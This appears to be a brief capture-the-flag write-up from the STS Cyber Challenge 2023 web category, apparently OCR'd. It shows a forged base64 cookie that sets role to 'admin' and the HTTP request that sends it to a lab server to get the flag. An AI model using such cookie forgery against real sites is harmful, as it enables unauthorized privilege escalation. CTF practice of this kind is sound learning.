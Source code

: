 # STS Cyber Challenge 2023 Write-up

## Web 

### Task - Myktybek  

{"username":"Myktybek","email":"myktybek@moshnyi.bala","role":"admin"}

eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ==

Request:

    GET / HTTP/1.1
    Host: 172.17.0.1:8082
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,ima ge/avif,image/webp,image/apng, */*;q=0.8,application/signe d-exchange; v=b3;q=0.7
    Accept-Encoding: gzip, deflate 
    Accept-Language: en-US, en; q-0.9
    Cookie: user_data-
    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ%3d%3d
    Connection: close

![image](https://github.com/user-attachments/assets/ee83fa8c-3ae7-4f00-b4f2-2fa144e546cb)

FLAG 

    STS{th1s_fl4g_1s_e4sy}

### Task - 
    
![UchihaItachi](https://github.com/user-attachments/assets/2720ac06-cf09-42db-9bef-6d0a9a7eaf11)
